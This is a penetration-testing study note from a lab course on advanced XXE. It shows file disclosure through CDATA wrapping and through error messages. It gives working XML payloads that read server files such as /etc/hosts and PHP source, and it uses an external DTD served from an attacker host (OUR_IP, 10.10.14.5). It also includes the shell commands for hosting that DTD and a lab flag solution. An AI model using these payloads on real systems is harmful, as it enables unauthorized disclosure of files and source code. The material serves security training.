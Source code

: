 ```yaml
---
description: >-
  Some file formats may not be readable through basic XXE, while in other cases,
  the web application may not output any input values in some instances
---
```


# Advanced File Disclosure

## Advanced Exfiltration with CDATA

As discussed in [local-file-disclosure.md](local-file-disclosure.md "mention") we can use PHP filters to encode PHP source files to not break XML format.

For other Web Application we can use CDATA tag to extract data for any web application backend. Using this tag (`<![CDATA[ FILE_CONTENT ]]>`) the XML parser will think that it is raw data and contain any type of data

Steps:

1. define `begin` internal entity with `<![CDATA[`
2. define `end` internal entity with `]]>`
3. place external entitiy file in between

```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```

<mark style="color:red;">**This will not work since XML prevents joining internal and external entities**</mark>

if we reference `XML Parameter Entities (starts with %)` from an external source (e.g., our own server), then all of them would be considered as external and can be joined

```xml
<!ENTITY joined "%begin;%file;%end;">
```

**Attack machine**

```bash
echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
python3 -m http.server 8000
```

**Request body**

```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
```

<figure><img src="https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_php_cdata.jpg" alt=""><figcaption><p>view info without encode to base64</p></figcaption></figure>

## Error Based XXE

`Semi blind XXE` -> web application might not write any output, so we cannot control any of the XML input entities to write its content

We can use runtime errors (PHP errors) or exception to display the info.

<figure><img src="https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_cause_error.jpg" alt=""><figcaption><p>Send malformed XML</p></figcaption></figure>

we can delete any of the closing tags, change one of them, so it does not close (e.g. `<roo>` instead of `<root>`), or just reference a non-existing entity

The web app displayed errorand revealed web server directory.&#x20;

To exploit we host DTD that contains

```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

payload defines the `file` parameter entity and then joins it with an entity that does not exist.

the web application would throw an error saying that this entity does not exist, along with our joined `%file;` as part of the error

**call our external DTD script, and then reference the `error` entity**

```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```

<figure><img src="https://academy.hackthebox.com/storage/modules/134/web_attacks_xxe_exfil_error_2.jpg" alt=""><figcaption><p>got the contents in error</p></figcaption></figure>

**this method is not as reliabl**e as the previous method for reading source files, as **it may have length limitations**, and certain **special characters may still break it**.

## Assessment

Use either method from this section to read the flag at '/flag.php'. (You may use the CDATA method at '/index.php', or the error-based method at '/error').

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA[">
  <!ENTITY % file SYSTEM "file:///flag.php">
  <!ENTITY % end "]]>">
  <!ENTITY % xxe SYSTEM "http://10.10.14.5:8000/xxe.dtd">
  %xxe;
]>
<root>
<name></name>
<tel></tel>
<email>&joined;</email>
<message></message>
</root>
```

<figure><img src="../../../.gitbook/assets/image (80).png" alt=""><figcaption></figcaption></figure>

